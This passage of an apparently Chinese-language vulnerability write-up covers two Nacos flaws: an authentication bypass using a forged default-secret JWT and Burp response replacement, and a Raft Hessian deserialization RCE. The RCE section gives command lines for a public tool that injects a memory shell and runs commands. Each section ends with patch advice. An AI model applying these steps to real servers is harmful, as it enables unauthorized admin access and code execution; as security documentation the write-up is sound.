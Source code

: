 ```

{
"accessToken":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTc1NDQ2MzQ4Mn0.UG3frNR5f6JY0Np51Hu1cSB1kzRiMS7u50nur01KAeE",
"tokenTtl":18000,
"globalAdmin":true,
"username":"nacos"
}
```
利用获取到的token登录后台，先登录，再进行burp拦截抓包，并拦截该响应：
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250705154858.png)
然后替换掉我们之前的相应数据包：
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250705155059.png)
放行：
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250705155144.png)
成功登录到系统。
## 5. 修复⽅式
 1. ⽬前官⽅已有可更新版本，建议受影响⽤户升级⾄2.2.0.1或以上版本
```
https://github.com/alibaba/nacos/releases/tag/2.2.0.1
```
2. 删除默认配置中的下列选项，启动nacos时必须⼿动配置nacos.core.auth.server.identity.key nacos.core.auth.server.identity.value nacos.core.auth.plugin.nacos.token.secret.key 
3. 缓解措施： 
	1.   检 查application.properties ⽂ 件 中 token.secret.key 属 性 ， 若 为 默 认 值 ， 可 参 考 ：https://nacos.io/zhcn/docs/v2/guide/user/auth.html进⾏更改。 
	2. 将Nacos部署于内部⽹络环境
# 0x03 CNVD-2023-45001/QVD-2023-13065 Nacos 集群 Raft 反序列化漏洞
## 1. 漏洞概述
Nacos 在处理某些基于 Jraft 的请求时，采⽤ Hessian 进⾏反序列化，但并未设置限制，导致应⽤存在远程代码执⾏（RCE）漏洞。
Nacos 1.x 在单机模式下默认不开放 7848 端⼝，故该情况通常不受此漏洞影响。Nacos 2.x 版本⽆论单机或集群模式均默认开放 7848 端⼝。
所以开放7848端⼝的nacos服务可以当作该洞的⼀个特征。
## 2. 影响版本
1.4.0 <= Nacos < 1.4.6 使⽤cluster集群模式运⾏
2.0.0 <= Nacos < 2.2.3 任意模式启动
## 3. 漏洞复现
提供⼀个现成⼯具：
```
https://github.com/c0olw/NacosRce/
```
工具使用：
自动注入内存马并执行命令 java -jar NacosRce.jar Url Jraft端口 "Command"：
```
java -jar NacosRce.jar http://172.17.16.253:8848/nacos 7848 "whoami"
```
只注入内存马：
```
java -jar NacosRce.jar http://192.168.90.1:8848/nacos 7848 memshell
```
## 4. 漏洞修复
通⽤修补建议升级到Nacos 1.4.6 、Nacos 2.2.3 ：
```
https://github.com/alibaba/nacos/releases/tag/1.4.6
https://github.com/alibaba/nacos/releases/tag/2.2.3
```